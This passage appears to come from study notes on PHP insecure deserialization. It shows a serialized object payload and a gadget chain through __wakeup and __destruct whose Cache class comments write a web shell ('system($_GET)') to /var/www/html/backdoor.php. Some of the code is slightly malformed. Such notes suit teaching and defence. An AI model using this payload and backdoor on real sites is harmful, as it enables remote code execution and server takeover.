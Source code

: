 When serialized, this class will look like this

```bash
O:4:"User":3:{s:9:"firstname";s:6:"Mehmet";s:8:"lastname";s:4:"INCE";s:8:"is_admin";O:11:"Permissions":1:{s:13:"permissionArr",a:0:{}}}
```

And this will be your payload to use. When deserialized, this code will use `Permissions` class therefore the code inside `__wakeup()` will run

`Permission class woke up`

---
#### + Cache class

```php
<?php

class Cache {
	var $filename;
	var $content;
	
	function __destruct()
	{
		file_put_contents(
			$this->filename, // /var/www/html/backdoor.php
			$this->content  // <?php system($_GET);
		)
	}
}

class Permissions {
	...
}

class User {
	...
}
```

So basically what happened is the following:
1) We chained `is_admin` from `User` class to `Permissions` class `__wakeup()` method 
2) From `Permissions` we chained `Cache` class

---
## Important Notes

> [!important]
> Deserialization can happen in other structures that are different than Class

---
## Related links

